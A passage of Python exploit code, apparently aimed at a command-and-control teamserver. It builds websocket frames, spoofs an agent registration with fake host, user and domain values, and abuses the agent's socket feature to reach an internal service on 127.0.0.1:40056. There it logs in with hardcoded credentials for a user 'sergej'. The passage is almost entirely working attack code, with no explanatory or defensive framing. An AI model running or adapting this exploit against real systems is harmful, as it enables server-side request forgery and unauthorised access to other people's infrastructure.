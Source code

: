 ```

    masking_key = os.urandom(4)
    frame.extend(masking_key)
    masked_payload = bytearray(payload_bytes[i] ^ masking_key[i % 4] for i in range(payload_length))
    frame.extend(masked_payload)

    return frame



parser = argparse.ArgumentParser()
parser.add_argument("-t", "--target", help="The listener target in URL format", required=True)
parser.add_argument("-i", "--ip", help="The IP to open the socket with", required=True)
parser.add_argument("-p", "--port", help="The port to open the socket with", required=True)
parser.add_argument("-A", "--user-agent", help="The User-Agent for the spoofed agent", default="Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36")
parser.add_argument("-H", "--hostname", help="The hostname for the spoofed agent", default="DESKTOP-7F61JT1")
parser.add_argument("-u", "--username", help="The username for the spoofed agent", default="Administrator")
parser.add_argument("-d", "--domain-name", help="The domain name for the spoofed agent", default="ECORP")
parser.add_argument("-n", "--process-name", help="The process name for the spoofed agent", default="msedge.exe")
parser.add_argument("-ip", "--internal-ip", help="The internal ip for the spoofed agent", default="10.1.33.7")

args = parser.parse_args()


# 0xDEADBEEF
magic = b"\xde\xad\xbe\xef"
teamserver_listener_url = args.target
headers = {
        "User-Agent": args.user_agent
}
agent_id = int_to_bytes(random.randint(100000, 1000000))
AES_Key = b"\x00" * 32
AES_IV = b"\x00" * 16
hostname = bytes(args.hostname, encoding="utf-8")
username = bytes(args.username, encoding="utf-8")
domain_name = bytes(args.domain_name, encoding="utf-8")
internal_ip = bytes(args.internal_ip, encoding="utf-8")
process_name = args.process_name.encode("utf-16le")
process_id = int_to_bytes(random.randint(1000, 5000))

register_agent(hostname, username, domain_name, internal_ip, process_name, process_id)

socket_id = b"\x11\x11\x11\x11"
open_socket(socket_id, args.ip, int(args.port))

HOSTNAME = "127.0.0.1"
PORT = 40056
USER = "sergej"
PASSWORD = "1w4nt2sw1tch2h4rdh4tc2"

write_socket(socket_id, make_request(HOSTNAME, PORT))

payload = {"Body": {"Info": {"Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(), "User": USER}, "SubEvent": 3}, "Head": {"Event": 1, "OneTime": "", "Time": "18:40:17", "User": USER}}
write_socket(socket_id, frame_generator(json.dumps(payload)))
```